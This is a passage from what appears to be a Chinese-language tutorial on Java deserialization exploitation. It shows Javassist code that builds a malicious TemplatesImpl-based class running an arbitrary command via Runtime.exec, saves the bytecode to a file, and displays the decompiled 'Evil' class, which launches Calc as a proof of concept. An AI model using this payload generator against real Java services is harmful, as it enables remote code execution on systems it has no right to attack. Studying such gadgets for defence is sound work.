 ```java
            constructor.setBody(" try {\n" +  
                    " Runtime.getRuntime().exec(\"" + cmd +  
                    "\");\n" +  
                    " } catch (Exception ignored) {\n" +  
                    " }");  
            byte[] bytes = ctClass.toBytecode();  
            ctClass.defrost();  
            return bytes;  
        } catch (Exception e) {  
            e.printStackTrace();  
            return new byte[]{};  
        }  
    }  
  
  
    public static void writeShell() throws Exception {  
        byte[] shell = EvilPayload.getTemplatesImpl("Calc");  
        FileOutputStream fileOutputStream = new FileOutputStream(new File("S"));  
        fileOutputStream.write(shell);  
    }  
  
    public static void main(String[] args) throws Exception {  
        writeShell();  
    }  
}
```

生成的恶意文件被我们输出到了 `S` 这个文件中，其实很多反序列化在用的时候，是没有把这个字节码提取保存出来，本质上还是可以保存的。

保存出来的文件代码如下

```java
//  
// Source code recreated from a .class file by IntelliJ IDEA  
// (powered by FernFlower decompiler)  
//  
  
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;  
  
public class Evil extends AbstractTranslet {  
    static {  
        try {  
            Runtime.getRuntime().exec("Calc");  
        } catch (Exception var1) {  
        }  
  
    }  
  
    public Evil() {  
    }  
}
```

---